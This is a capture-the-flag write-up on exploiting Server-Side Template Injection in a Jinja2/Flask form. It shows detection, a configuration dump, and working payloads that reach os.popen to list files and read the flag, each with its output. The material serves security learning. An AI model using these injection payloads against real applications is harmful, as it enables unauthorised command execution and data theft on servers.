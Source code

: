 # Server-Side Template Injection (SSTI) CTF Challenge Writeup

## **Challenge Overview**
We were given a website with an input field that allowed users to enter an announcement. The challenge involved exploiting **Server-Side Template Injection (SSTI)** to extract the flag stored on the server.

---

## **Step 1: Identifying the Vulnerability**
To test for SSTI, we entered a simple mathematical expression inside template delimiters:

```
{{7*7}}
```

Upon submission, the output returned:

```
49
```

This confirmed that user input was being evaluated inside a **Jinja2 template engine (Python Flask)**, making the application vulnerable to **SSTI**.

---

## **Step 2: Extracting Configuration Information**
Since we had SSTI access, we attempted to retrieve application configuration details by injecting:

```
{{ config.items() }}
```

This revealed various Flask configuration settings, such as:

```
dict_items([
  ('DEBUG', False), ('TESTING', False), ('SECRET_KEY', None),
  ('SESSION_COOKIE_NAME', 'session'), ('PREFERRED_URL_SCHEME', 'http'),
  ('MAX_COOKIE_SIZE', 4093)
])
```

While the **SECRET_KEY** was `None`, this confirmed that we had **access to Flask's internal objects**, which we could leverage for deeper exploitation.

---

## **Step 3: Gaining File System Access**
To enumerate files in the current directory, we executed:

```
{{ config.__class__.__init__.__globals__['os'].popen('ls -la').read() }}
```

The output revealed the following files:

```
total 12
drwxr-xr-x 1 root root 25 Mar 20 09:56 .
drwxr-xr-x 1 root root 23 Mar 20 09:56 ..
drwxr-xr-x 2 root root 32 Mar 20 09:56 __pycache__
-rwxr-xr-x 1 root root 1241 Mar 6 03:27 app.py
-rw-r--r-- 1 root root 58 Mar 6 19:43 flag
-rwxr-xr-x 1 root root 268 Mar 6 03:27 requirements.txt
```

The presence of a file named **flag** indicated our target file.

---

## **Step 4: Reading the Flag File**
To read the contents of `flag`, we used:

```
{{ config.__class__.__init__.__globals__['open']('flag').read() }}
```

Alternatively, if the above method didn't work, we could use:

```
{{ config.__class__.__init__.__globals__['os'].popen('cat flag').read() }}
```

This successfully displayed the flag.

---

## **Final Notes and Key Takeaways**
1. **SSTI Detection:** If user input is rendered directly in a template, injecting `{{7*7}}` can confirm an SSTI vulnerability.
2. **Exploiting SSTI in Jinja2:** Since Flask's Jinja2 exposes `config`, we can retrieve application details using `{{ config.items() }}`.
3. **Command Execution via SSTI:** Leveraging `os.popen()` allows interaction with the underlying system.
4. **Flag Extraction:** Using `popen('ls -la')` helped locate the flag, and `popen('cat flag')` revealed its contents.

This methodology can be applied to other SSTI challenges in **Flask, Django, and other template engines** like **Twig (PHP)** or **Freemarker (Java)**.

---

## **Future Approach for Similar Challenges**
1. **Test for SSTI with `{{7*7}}`**
2. **Check for Internal Objects (`config.items()`)**
3. **Attempt File Listing (`ls -la`)**
4. **Read Flag File (`cat flag`)**

For every CTF challenge, we will document steps in a similar way to ensure clarity and repeatability. 🚀

